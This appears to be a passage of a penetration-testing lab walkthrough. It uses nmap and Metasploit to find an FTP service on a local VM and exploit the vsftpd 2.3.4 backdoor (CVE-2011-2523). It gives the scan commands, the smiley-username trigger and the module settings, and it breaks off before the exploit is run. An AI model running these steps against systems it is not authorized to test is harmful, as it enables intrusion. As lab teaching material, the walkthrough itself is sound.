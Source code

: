
# 2.1. Find the target and identify the vulnerability

Scan with Nmap from Kali to know the target IP on the network:

```
nmap -sn 192.168.56.0/24
```

![[Pasted image 20250211190103.png]]

Identify the ports opened and the services used by our target `192.168.56.107`. By default, nmap uses a `SYN scan`, which might be blocked by a firewall. Instead, try a `TCP Connect` scan:

```
nmap -sT 192.168.56.107
```

![[Pasted image 20250211190940.png]]

We will explore the service version of the protocol `ftp` in the port 21:
```
nmap -sV -p 21 192.168.56.107
```

![[Pasted image 20250211191406.png]]

vsftpd is prone to a backdoor vulnerability because the `vsftpd-2.3.4.tar.gz` source package file contains a backdoor (CVE-2011-2523). An attacker can cause the application to open a backdoor on port 6200 by logging to the FTP server with the username ':)'. We will try to find a vulnerability related to that service version in Metasploit. 

Run Metasploit in Kali:
```
msfconsole
```

```
search vsftpd
```

![[Pasted image 20250211191707.png]]

We know that there is an exploit for that protocol version. Let's exploit it!

---
# 2.2. Exploit the vulnerability

Select the exploit, set the parameters and check that all the options are correct:
```
use exploit/unix/ftp/vsftpd_234_backdoor
set TARGET 0
set RHOSTS 192.168.56.101
options
```
